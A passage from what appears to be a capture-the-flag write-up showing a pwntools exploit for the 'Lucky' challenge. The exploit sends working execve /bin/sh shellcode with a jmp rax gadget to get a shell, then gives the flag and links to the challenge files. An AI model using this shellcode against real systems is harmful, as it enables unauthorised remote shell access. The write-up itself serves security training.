 ```python
shell = "\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05"

pay = flat({
    0: shell,
    72: jmp_rax
})

log.info(pay)
 
io.recv()
io.sendline(pay)

log.info(len(pay))

io.interactive()
```
> _YAO{Y0u_Ar3_S0_Lucky_GGWp}_

## Download Challenges
You can try pwning the challenges and share ideas with me 🫴:
- [Baby Blue](/assets/download/aswanctf2025/baby_blue_player.zip)
- [Lucky](/assets/download/aswanctf2025/Lucky_Player.zip)
